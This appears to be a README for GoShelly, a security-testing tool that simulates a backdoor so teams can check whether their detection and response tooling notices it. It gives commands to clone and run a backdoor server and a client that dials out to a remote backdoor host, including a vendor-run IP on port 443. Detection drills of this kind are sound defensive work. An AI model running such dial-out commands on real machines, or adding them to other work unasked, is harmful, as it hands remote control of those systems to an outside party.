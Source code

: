 Guide for Araali GoShelly
=========================

Araali GoShelly is an open source tool that helps security teams safely test their detect and response readiness (the fire drill for SIEM/SOAR/EDR/NDR/XDR investment) 
for backdoors. This is typical when supply chain vulnerabilities like remote code execution (RCE) are exploited and represents a doomsday scenario where an attacker
has full remote control capabilities based on the backdoor.


Installation
------------

Similar to the deprecated version of this tool, Araali Shelly, GoShelly offers the option to run your own 
backdoor and/or use the already running backdoor offered by Araali to listen for incoming connections.

Setup a backdoor servivce
_________________________

To use your own backdoor server
+++++++++++++++++++++++++++++++
On a machine, independent from the machine you wish to test the attack response readiness for, install and configure GoShelly server
using the following instructions

    Clone the repository from GitHub
        SSH::
        git clone git@github.com:arorasoham9/goshelly-server.git .

        HTTPS::
        git clone https://github.com/arorasoham9/goshelly-server.git .
                
    Make the binary executable::
        chmod +x goshelly-Serv

    Run the below command to make the GoShelly Server start listening::
        ./goshelly-Serv -a

To use Araali's backdoor server
++++++++++++++++++++++++++++++++
Nothing. It's already running.Follow the instructions below to dial to our backdoor server using GoShelly Client.


Setup GoShelly Client
_____________________
On the VM or K8S cluster, you wish to test the attack response readiness for, install and configure GoShelly Client 
using the following instructions
    
    **For Virtual Machines(VMs)**
        Clone the repository from GitHub
            SSH::
                git clone git@github.com:arorasoham9/goShellyClient.git .
            HTTPS::
                git clone https://github.com/arorasoham9/goShellyClient.git .

        Make the binary executable::
            chmod +x goshelly

        Run the below command to make the GoShelly Client dial out to the backdoor server
            If using Araali's backdoor servivce::
                ./goshelly 194.195.115.136:443
            If using your own backdoor servivce::
                ./goshelly <ip-address>:443
            

    **For K8S Cluster**
    Instructions not available just yet. Awaiting helm deployment. -Soham



Installation
------------
To view results, check your Araali console.


